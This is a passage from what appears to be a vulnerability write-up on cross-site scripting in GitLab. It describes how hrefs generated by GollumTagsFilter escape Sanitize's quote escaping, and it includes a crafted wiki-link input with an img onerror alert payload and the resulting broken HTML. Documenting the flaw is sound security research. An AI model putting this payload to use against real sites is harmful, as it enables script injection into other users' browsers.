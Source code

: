 This means that if we can inject `&quot;` in to the `href` attribute, then we can break it.

Fortunately, the [Sanitize](https://github.com/rgrove/sanitize/blob/v6.0.0/lib/sanitize/transformers/clean_element.rb#L27-L40) is here and it replaces `"` by `%22` in the `href` attribute.

```ruby
# https://github.com/rgrove/sanitize/blob/v6.0.0/lib/sanitize/transformers/clean_element.rb#L27-L40

  # Mapping of original characters to escape sequences for characters that
  # should be escaped in attributes affected by unsafe libxml2 behavior.
  UNSAFE_LIBXML_ESCAPE_CHARS = {
    ' ' => '%20',
    '"' => '%22'
  }
```


Any users' direct input of `href` is sanitized but not the `href` which are generated by other HTML filters. One of them is [GollumTagsFilter](https://gitlab.com/gitlab-org/gitlab/blob/4c3239a8b20a104a15e067f208f269f65dbee927/lib/banzai/filter/gollum_tags_filter.rb#L141). 

If we provide the following input:

```
[[a|http:'"&lt;]]
```

then we get:

```html
<a rel="nofollow noreferrer noopener" class="gfm" href="http:'&quot;&lt;" target="_blank">a</a>
```


So fare, we can introduce any attribute into `<a>` tag, or add arbitrary tag. The latter will have no attribute because no space between tag name and attribute (any space character is URI encoded when serializing `href`). 

For example:

- input:

```html
<dl><a href="https://gitlab.com/gitlab-org/gitlab/-/issues/428268*&lt;i&gt;&lt;a href=&quot;http:&#39;&amp;quot;yvvdwf=here&amp;gt;&amp;lt;img/src=&amp;quot;0&amp;quot;onerror=&amp;quot;alert(0)&amp;quot;&amp;gt;https://gitlab.com/gitlab-org/gitlab/-/issues/428268&quot; class=&quot;gfm&quot;&gt;a&lt;/a&gt;&lt;/i&gt;">https://gitlab.com/gitlab-org/gitlab/-/issues/428268*<i>[[a|http:'"yvvdwf=here&gt;&lt;img/src="0"onerror="alert(0)"&gt;https://gitlab.com/gitlab-org/gitlab/-/issues/428268]]</i></a></dl> 
```

- output:

```html
<dl>&#x000A;<a href="https://gitlab.com/gitlab-org/gitlab/-/issues/428268">https://gitlab.com/gitlab-org/gitlab/-/issues/428268</a>*<i><a href="http:'" yvvdwf="here"><img></a><a>https://gitlab.com/gitlab-org/gitlab/-/issues/428268</a>" class="gfm"&gt;a</i>&#x000A;</dl>
```

## 3. mXSS
